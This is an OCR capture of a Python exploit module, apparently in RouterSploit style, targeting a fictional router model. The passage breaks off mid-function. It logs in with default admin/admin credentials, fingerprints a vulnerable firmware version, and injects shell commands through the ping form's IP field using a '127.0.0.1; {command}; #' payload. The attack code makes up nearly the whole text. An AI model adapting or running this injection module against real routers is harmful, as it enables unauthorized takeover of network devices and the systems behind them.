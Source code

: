 ```python
        "devices": (
            "Fictional Router 9000 < 2.1.4",
        ),
    }
    
    target = OptIP("", "Target IP address")
    port = OptPort(80, "Target HTTP port")
    ssl = OptBool(False, "SSL enabled: true/false")
    username = OptString("admin", "Username for authentication")
    password = OptString("admin", "Password for authentication")
    
    def __init__(self):
        self.session = None
        
    def login(self):
        # 实现登录逻辑
        data = {
            "username": self.username,
            "password": self.password
        }
        
        response = self.http_request(
            method="POST",
            path="/login.cgi",
            data=data,
            session=self.session
        )
        
        if response is None:
            return False
            
        if "Login Successful" in response.text or response.status_code == 302:
            if self.session is None:
                self.session = requests.Session()
            return True
        return False
    
    def check(self):
        # 验证目标是否存在漏洞
        if self.login():
            # 检查固件版本
            response = self.http_request(
                method="GET",
                path="/status.cgi",
                session=self.session
            )
            
            if response and "Fictional Router 9000" in response.text:
                if "FW Version: 2.1.3" in response.text:  # 有漏洞的版本
                    return True
        return False
    
    def execute_command(self, command):
        # 执行命令的漏洞利用
        payload = f"127.0.0.1; {command}; #"
        data = {
            "ip": payload,
            "submit": "Ping"
        }
        
        response = self.http_request(
            method="POST",
            path="/ping.cgi",
```
